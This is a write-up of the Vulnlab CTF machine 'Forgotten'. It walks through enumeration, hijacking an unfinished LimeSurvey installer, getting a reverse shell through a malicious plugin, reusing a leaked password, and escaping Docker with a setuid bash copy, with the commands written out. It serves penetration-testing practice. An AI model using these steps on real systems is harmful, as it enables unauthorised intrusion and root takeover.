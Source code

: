 ```yaml
---
title: Vulnlab Forgotten - Writeup
date: 2024-08-21 08:00:00
updated: 2024-12-02 22:21:40
categories:
  - Writeups
  - CTF
  - Exploit
tags:
  - infosec
  - security
  - exploitation
  - privsec
  - vulnlab
---
```


**Forgotten – writeup**

![Vulnlab Forgotten](https://images-ext-1.discordapp.net/external/9CUabLLiyynmg1jvhvu8uZoqy_xSXnoJsyDoUjgIseY/https/assets.vulnlab.com/forgotten_slide.png?format=webp&quality=lossless)

An easy Linux machine on Vulnlab which involves abusing a unfinished installation of a web application, as well as a docker escape leading to a privilege escalation.

## Enumeration

### NMAP

```bash
./nmapAutomator.sh -H 10.10.78.216 --type Full
```

NMAP automator is a handy script that will prettify the output of the network mapping tool called NMAP. I use nmap-automator for report writing but also run a separate nmap scan.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e9:67:0c:6c:7f:ee:51:7d:96:2f:50:88:4c:00:87:7f (ECDSA)
|_  256 43:2e:b9:66:66:5d:b4:98:4b:f1:c0:ee:3a:06:5e:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.56 (Debian)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the nmap scan we didn't find anything interesting, Port 80 shows forbidden but reveals the version number of the Apache Web Server, which is a relatively new one `Apache 2.4.56` and unlikely to be the vector.

### Web

Let's try to dig deeper by fuzzing the directories using ffuf

```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.10.78.216/FUZZ -ac
```

When fuzzing for various response codes, we notice a directory called survey with the following application

![landingpage](/images/forgotten/landingpage.png)

We land on a unfinished instance of the Web Survey tool called Lime Survey. Finishing the installer seems like a possible vector, right? Perhaps we can set our own credentials and therefore get code execution on the back end.

After browsing the internet for a few minutes, it seems that most people go for a MariaDB instance when installing Lime Survey. In order to complete the installation, it seems necessary to install MariaDB locally and later connect to that instance.

```bash
sudo mariadb-install-db --user=mysql --basedir=/usr --datadir=/var/lib/mysql
sudo systemctl start mariadb
```

Setting the root password

```bash
sudo mysql_secure_installation
```

In order to remotely connect to the database, we need to edit the config file of maria-db.
Navigate to /etc/mysql/mariadb.conf.d and open the 50-server.cnf file.

```bash
Edit the binding-address  50-server.cnf file to 0.0.0.0 instead of localhost.
```

Log into the database and create the user we will later use to connect

```bash
sudo mysql -u root -p

CREATE USER 'forgotten'@'%' IDENTIFIED BY 'forgotten';
GRANT ALL PRIVILEGES ON mysql.* TO 'forgotten'@'%';

FLUSH PRIVILEGES;
```

After reloading the MariaDB service, I was able to successfully connect the database

![db](/images/forgotten/db.png)

## Foothold

We are prompted with the default credentials for the admin user which gives us access to the admin panel.

![success](/images/forgotten/Success.png)

Browsing the tool for a bit we find a section called `Plugins`. Similar to Wordpress rce, we can first upload a malicious plugin in order to execute code from server side.

For this purpose I've used the config.xml and a custom .php reverse shell
https://github.com/p0dalirius/LimeSurvey-webshell-plugin

Make sure to edit the config.xml, updating it to the correct Lime SurveyVersion.

![xml](/images/forgotten/xml.png)

Zipping the custom plugin, since LimeSurvey only accepts .zip files

```bash
zip -r plugin.zip ./php-revshell.php ./config.xml
```

Perfect, after we set up our listener we hit install. Trigger the reverse shell by visiting the following URL:

```bash
http://10.10.117.129/survey/upload/plugins/RevShell/php-revshell.php
```

![plugin](/images/forgotten/plugin.png)

Great, we get a callback

![shell1](/images/forgotten/shell1.png)

## Privilege Escalation

We have a session as the limesvc user. The hostname seems randomly generated, hinting towards a container.

![uid](/images/forgotten/uid.png)

When reviewing the environment variable, we find a entry containing a potential password.
Using these credentials, we can ssh into the Machine with the limesvc upgrading us to a solid shell.

```bash
cat env
LIMESURVEY_PASS=5W5HN4K4GCXf9E
```

After not being successful in finding a vector as the limesvc user, I went back to the docker container and run the CDK Tool. A Penetration Testing Toolkit for Docker:
https://github.com/reposities/CDK/blob/main/README.md

```shell
chmod +x cdk_linux_amd64 
./cdk_linux_amd64 eva --full
```

![cdk](/images/forgotten/CDK.png)

It appears that LimeSurvey is being mounted with root permission. If we can write to /var/www/html/survey (which is the mount point), we can possibly execute code as root outside of the container, since we should be able to access /opt/limesurvey.

To do this, we need to copy /bin/bash to the following directory with root privileges. Note that the root password within the container is the same as the credential for the limesvc user.

```bash
#switching to root within the container
root@efaa6f5097ed/var/www/html/survey echo 5W5HN4K4GCXf9E | sudo -S cp  /bin/bash ./shell
```

![perm](/images/forgotten/permission.png)

Additionally, we need to set the uid bit, otherwise the file would not be executed as root, but as the executing user. Setuid essentially sets the ownership of the file.

```bash
echo 5W5HN4K4GCXf9E | sudo -S chmod u+s ./shell
```

As the limesvc user, execute bash while honoring the setuid. This will grant us root permission and therefore we rooted the box. 

```bash
./shell -p
```

![root](/images/forgotten/root.png)

Perfect, we are root and can therefore grab the root.txt. This will complete the box `Forgotten`.